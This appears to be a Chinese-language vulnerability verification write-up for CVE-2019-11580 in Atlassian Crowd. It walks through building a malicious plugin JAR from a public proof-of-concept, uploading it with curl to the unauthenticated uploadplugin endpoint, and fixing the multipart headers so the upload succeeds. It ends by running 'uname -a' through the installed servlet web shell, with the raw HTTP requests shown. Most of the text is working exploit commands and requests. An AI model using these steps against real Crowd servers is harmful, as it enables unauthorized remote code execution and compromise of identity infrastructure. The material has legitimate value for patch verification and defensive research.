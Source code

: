 _**漏洞验证**_

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JV2c8sPEQktuJesNZVlwSkxSicLekFDURqlJ64rr2yOdAMro0nkRQyZxsW4kmwVEWF1qvYf6QiaibibDA/640?wx_fmt=png)

验证

http://test.com:8095/crowd/admin/uploadplugin.action 返回 400

✦ 测试 rce 

https://github.com/lc/research/tree/master/CVE-2019-11580/atlassian-shell

```
javac -cp apache-tomcat/lib/servlet-api.jar com/cdl/shell/Cdl.java
zip -r rce.jar atlassian-plugin.xml ./com
```

✦ exp 测试：

```
curl --form "file_cdl=@rce.jar" http://test.com:8095/crowd/admin/uploadplugin.action
```

这里需要注意两点，content-type 处使用 multipart/mixed，Content-Disposition 处确保为 form-data。这里在测试 curl -H 方式添加 content-type 时一直报 400，最后发现我使用的 curl(7.64.1) 在指定 Content-type 时会导致 Form 表单里的 Content-Disposition 被置为 attachment，导致失败。因此这里采用手工 curl 发送，burp 抓改 Content-Disposition 方式处理的：

```
```
POST /crowd/admin/uploadplugin.action HTTP/1.1
Host: test.com:8095
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 5740
Content-Type: multipart/mixed; boundary=------------------------ca095ddc4119084a
Expect: 100-continue
Connection: close

--------------------------ca095ddc4119084a
Content-Disposition: form-data; 
Content-Type: application/octet-stream
......
```
```

根据 rce 内容构造相关 payload

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JV2c8sPEQktuJesNZVlwSkxiaHCMBCvd85PibPSfnXgJafnNLH1GC05HBtQK6wLPkVItM5icLqBTFXxQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JV2c8sPEQktuJesNZVlwSkxgq7QH1rnCs1ia41ib6EcfzFFpDowdZLibms44ATI1zo3GHF9UB2JaLwibQ/640?wx_fmt=png)

http://test.com:8095/crowd/plugins/servlet/exp?cmd=uname%20-a

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JV2c8sPEQktuJesNZVlwSkxSjOVmkIq6sEbwy1jMPEBJ03ibhmNTjiapZKyJot3vV9KS84cKElmlm2w/640?wx_fmt=png)

```
```
GET /crowd/plugins/servlet/exp?cmd=uname%20-a HTTP/1.1
Host: test.com:8095
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.24.0
```
```

